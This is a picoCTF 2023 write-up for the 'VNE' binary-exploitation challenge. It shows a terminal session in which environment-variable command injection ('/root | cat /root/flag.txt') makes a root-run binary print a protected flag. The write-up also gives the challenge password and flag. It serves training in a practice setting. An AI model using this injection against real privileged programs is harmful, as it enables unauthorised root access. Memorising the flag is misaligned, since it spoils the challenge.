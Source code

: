 ### VNE

#Medium #Binary_Exploitation #picoCTF2023 #bash #env #injection

Author: Junias Bonou

#### Description

We've got a binary that can list directories as root, try it out !!`ssh` to `saturn.picoctf.net:59756`, and run the binary named "bin" once connected. Login as `ctf-player` with the password, `fd7746b4`

```css
┌──(kali㉿kali)-[~]
└─$ ssh -p 56238 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:56238 ([13.59.203.175]:56238)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:56238' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR="/root"
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
ctf-player@pico-chall$ export SECRET_DIR="cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of cat /root/flag.txt as root: 
ls: cannot access 'cat': No such file or directory
/root/flag.txt
Error: system() call returned non-zero value: 512
ctf-player@pico-chall$ export SECRET_DIR="/root |ls"
ctf-player@pico-chall$ ./bin
Listing the content of /root |ls as root: 
bin
ctf-player@pico-chall$ export SECRET_DIR="/root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root | cat /root/flag.txt as root: 
picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}ctf-player@pico-chall$

```

flag is `picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}`